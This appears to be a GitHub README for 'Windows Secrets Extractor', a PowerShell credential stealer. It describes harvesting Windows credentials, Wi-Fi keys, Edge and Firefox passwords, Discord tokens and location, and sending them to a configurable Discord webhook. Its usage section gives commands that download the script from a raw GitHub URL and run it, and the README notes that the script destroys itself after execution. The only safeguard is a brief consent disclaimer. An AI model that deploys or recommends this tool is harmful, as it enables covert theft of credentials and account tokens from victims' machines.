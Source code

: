 # Windows Secrets Extractor

**Windows Secrets Extractor** allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
- PowerShell [CredentialManager](https://www.powershellgallery.com/packages/CredentialManager/2.0) module.
> (Optionnal) Python 3, if you want Discord Token Grab


### Configuration
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``8`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
